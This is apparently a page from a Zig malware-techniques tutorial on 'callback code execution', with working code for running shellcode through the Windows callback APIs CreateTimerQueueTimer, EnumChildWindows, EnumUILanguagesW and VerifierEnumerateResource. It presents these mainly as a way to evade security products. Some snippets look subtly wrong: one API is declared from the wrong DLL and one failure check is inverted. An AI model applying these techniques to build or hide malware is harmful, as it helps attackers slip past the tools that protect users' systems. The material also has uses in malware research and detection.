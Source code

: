 # Callback Code Execution

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Advanced-Malware-Techniques/Callback-Code-Execution)

Callback code execution is a technique that leverages Windows API functions that accept callback function pointers to execute shellcode. Instead of using traditional methods like CreateThread or VirtualAlloc, this approach casts shellcode as a legitimate callback function, making it appear more benign to security solutions.

## What Is Callback Function

A callback function is a function passed as an argument to another function, which is then invoked at a specific point during the execution of that function. In Windows, many APIs accept callback functions to handle events, enumerate resources, or perform asynchronous operations.

The key insight for malware development is that these callback functions are executed in the same process context with the same privileges, making them perfect vehicles for shellcode execution. By casting shellcode as a callback function pointer, we can trick legitimate Windows APIs into executing our malicious code.

## Common Callback Functions

### Using CreateTimerQueueTimer

`CreateTimerQueueTimer` creates a timer-queue timer that executes a callback function when the timer expires. This is one of the most reliable callback execution techniques.

```zig
extern "kernel32" fn CreateTimerQueueTimer(
    phNewTimer: *?windows.HANDLE,
    TimerQueue: ?windows.HANDLE,
    Callback: WAITORTIMERCALLBACK,
    Parameter: ?*anyopaque,
    DueTime: windows.DWORD,
    Period: windows.DWORD,
    Flags: windows.ULONG,
) callconv(WINAPI) windows.BOOL;

const WAITORTIMERCALLBACK = *const fn (?*anyopaque, windows.BOOL) callconv(WINAPI) void;

// Cast the payload address to the callback function type
const callback = @as(WAITORTIMERCALLBACK, @ptrCast(&payload));

if (CreateTimerQueueTimer(
    &hTimer,
    null, // TimerQueue - use default queue
    callback, // Callback - our shellcode
    null, // Parameter
    0, // DueTime - execute immediately
    0, // Period - execute once
    0, // Flags
) == 0) {
    print("[!] CreateTimerQueueTimer Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumChildWindows

`EnumChildWindows` enumerates child windows and calls a callback function for each window found. When passed a `NULL` parent window, it enumerates all top-level windows.

```zig
extern "user32" fn EnumChildWindows(
    hWndParent: ?HWND,
    lpEnumFunc: WNDENUMPROC,
    lParam: LPARAM,
) callconv(WINAPI) windows.BOOL;

const WNDENUMPROC = *const fn (HWND, LPARAM) callconv(WINAPI) windows.BOOL;

// Cast the payload address to the callback function type
const callback = @as(WNDENUMPROC, @ptrCast(&payload));

if (EnumChildWindows(null, // NULL parent enumerates all top-level windows
    callback, // Our payload
    0 // NULL lParam
) == 0) {
    print("[!] EnumChildWindows Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using EnumUILanguagesW

`EnumUILanguagesW` enumerates the user interface languages available on the system, calling a callback function for each language found.

```zig
extern "user32" fn EnumUILanguagesW(
    lpUILanguageEnumProc: UILANGUAGE_ENUMPROCW,
    dwFlags: DWORD,
    lParam: LPARAM
) callconv(WINAPI) windows.BOOL;

const UILANGUAGE_ENUMPROCW = *const fn ([*:0]u16, LPARAM) callconv(WINAPI) windows.BOOL;
const MUI_LANGUAGE_NAME: DWORD = 0x8;

// Cast the payload address to the callback function type
const callback = @as(UILANGUAGE_ENUMPROCW, @ptrCast(&payload));

if (EnumUILanguagesW(callback, MUI_LANGUAGE_NAME, 0) != 0) {
    print("[!] EnumUILanguagesW Failed With Error: {}\n", .{windows.kernel32.GetLastError()});
    return;
}
```

### Using VerifierEnumerateResource

`VerifierEnumerateResource` is part of the Application Verifier framework and enumerates application resources, calling a callback for each resource found.

```zig
// Application Verifier callback function type
const AVRF_RESOURCE_ENUMERATE_CALLBACK = *const fn (
    PVOID, // ResourceDescription
    PVOID, // EnumerationContext
    PULONG, // EnumerationLevel
) callconv(WINAPI) ULONG;

// Function pointer type for VerifierEnumerateResource
const FnVerifierEnumerateResource = *const fn (
    HANDLE, // Process
    ULONG, // Flags
    ULONG, // ResourceType
    AVRF_RESOURCE_ENUMERATE_CALLBACK, // ResourceCallback
    ?PVOID, // EnumerationContext
) callconv(WINAPI) ULONG;

// Load verifier.dll dynamically
hModule = LoadLibraryA("verifier.dll");
const proc_addr = GetProcAddress(hModule.?, "VerifierEnumerateResource");
pVerifierEnumerateResource = @as(FnVerifierEnumerateResource, @ptrCast(proc_addr.?));

// Cast the payload address to the callback function type
const callback = @as(AVRF_RESOURCE_ENUMERATE_CALLBACK, @ptrCast(&payload));

// Call VerifierEnumerateResource
_ = pVerifierEnumerateResource.?(
    GetCurrentProcess(),
    0,
    AvrfResourceHeapAllocation,
    callback,
    null,
);
```

### More

The callback execution technique is versatile and can be applied to many Windows APIs. Some additional functions that accept callbacks include:

- **`EnumerateLoadedModules`** - Enumerates loaded modules in a process
- **`EnumDirTreeW`** - Enumerates directory trees with file patterns
- **`SymEnumProcesses`** - Enumerates processes for symbol handling
- **`EnumPageFilesW`** - Enumerates system paging files
- **`LdrEnumerateLoadedModules`** - Low-level module enumeration via NTDLL
- **`EnumWindows`** - Enumerates all top-level windows
- **`EnumResourceTypesW`** - Enumerates resource types in modules
- **`EnumFontsW`** - Enumerates fonts

You can checkout more callback functions in [this GitHub repository](https://github.com/aahmad097/AlternativeShellcodeExec).

## Advantages Of Callback Execution

1. **Evasion**: Appears as legitimate API usage to security tools
2. **No Suspicious Allocations**: Uses existing executable memory (.text section)
3. **No Thread Creation**: Executes in the context of existing threads
4. **API Diversity**: Many different APIs can be used, making detection harder
5. **Legitimate Context**: Code runs through legitimate Windows API call chains
